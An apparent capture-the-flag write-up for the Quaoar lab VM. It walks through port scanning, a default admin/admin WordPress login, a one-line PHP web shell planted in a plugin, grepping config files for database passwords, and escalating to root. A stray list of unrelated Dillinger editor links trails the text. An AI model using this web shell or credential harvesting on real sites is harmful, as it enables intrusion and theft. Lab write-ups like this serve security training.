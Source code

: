 # hackfest2016: Quaoar Writeup

IP of the VM is 192.168.1.162. So, made a port scan with nmap:
```sh
$ nmap -p- 192.168.1.162
Starting Nmap 6.47 ( http://nmap.org ) at 2017-05-14 12:16 EEST
Nmap scan report for Quaoar (192.168.1.162)
Host is up (0.0068s latency).
Not shown: 65526 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
53/tcp  open  domain
80/tcp  open  http
110/tcp open  pop3
139/tcp open  netbios-ssn
143/tcp open  imap
445/tcp open  microsoft-ds
993/tcp open  imaps
995/tcp open  pop3s
```
Let's look at webapplication on 80 port and try to open robots.txt file.

>Disallow: Hackers
Allow: /wordpress/

Go to the wordpress admin login page (http://192.168.1.162/wordpress/wp-login.php  )and try default admin/admin credentials. It works:)
Navigate to the plugin tab and edit plugin hello dolly with next code:
```php
<?php
system($_GET["cmd"]);
?>
```
Save it and open http://192.168.1.162/wordpress/wp-content/plugins/hello.php?cmd=whoami in browser:
>www-data 

After some investigating of file system, get first flag by http://192.168.1.162/wordpress/wp-content/plugins/hello.php?cmd=cat%20/home/wpadmin/flag.txt:
>2bafe61f03117ac66a73c3c514de796e 

Login via ssh with wpadmin/wpadmin credentials with give more stable sh. Let's try to find DB credentials:
```sh
$ grep -rnw ./ -e DB_PASSWORD
./wordpress/wp-admin/setup-config.php:187:	define('DB_PASSWORD', $pwd);
./wordpress/wp-admin/setup-config.php:241:			case 'DB_PASSWORD' :
./wordpress/wp-config-sample.php:25:define('DB_PASSWORD', 'password_here');
./wordpress/wp-config.php:25:define('DB_PASSWORD', 'rootpassword!');
./wordpress/wp-includes/load.php:327:	$wpdb = new wpdb( DB_USER, DB_PASSWORD, DB_NAME, DB_HOST );
grep: ./hsperfdata_tomcat6/1522: Permission denied
./upload/framework/functions/function.switch_theme.php:71:		"define('DB_PASSWORD', '".DB_PASSWORD."');\n".
./upload/framework/functions/function.switch_theme.php:130:		"define('DB_PASSWORD', '".DB_PASSWORD."');\n".
./upload/framework/class.database.php:166:            'pass' => (array_key_exists('pass', $settings) ? $settings['pass'] : DB_PASSWORD),
./upload/config.php:10:define('DB_PASSWORD', 'rootpassword!');
```
So, we see, that root password is **rootpassword!**
```sh
$ su
Password: 
root@Quaoar:/var/www# id
uid=0(root) gid=0(root) groups=0(root)
```
Trying to get flag.txt
```sh
root@Quaoar:/var/www# cd ~/
root@Quaoar:~# ls
flag.txt  vmware-tools-distrib
root@Quaoar:~# cat flag.txt 
8e3f9ec016e3598c5eec11fd3d73f6fb
```

   [john gruber]: <http://daringfireball.net>
   [df1]: <http://daringfireball.net/projects/markdown/>
   [markdown-it]: <https://github.com/markdown-it/markdown-it>
   [Ace Editor]: <http://ace.ajax.org>
   [node.js]: <http://nodejs.org>
   [Twitter Bootstrap]: <http://twitter.github.com/bootstrap/>
   [jQuery]: <http://jquery.com>
   [@tjholowaychuk]: <http://twitter.com/tjholowaychuk>
   [express]: <http://expressjs.com>
   [AngularJS]: <http://angularjs.org>
   [Gulp]: <http://gulpjs.com>

   [PlDb]: <https://github.com/joemccann/dillinger/tree/master/plugins/dropbox/README.md>
   [PlGh]: <https://github.com/joemccann/dillinger/tree/master/plugins/github/README.md>
   [PlGd]: <https://github.com/joemccann/dillinger/tree/master/plugins/googledrive/README.md>
   [PlOd]: <https://github.com/joemccann/dillinger/tree/master/plugins/onedrive/README.md>
   [PlMe]: <https://github.com/joemccann/dillinger/tree/master/plugins/medium/README.md>
   [PlGa]: <https://github.com/RahulHP/dillinger/blob/master/plugins/googleanalytics/README.md>

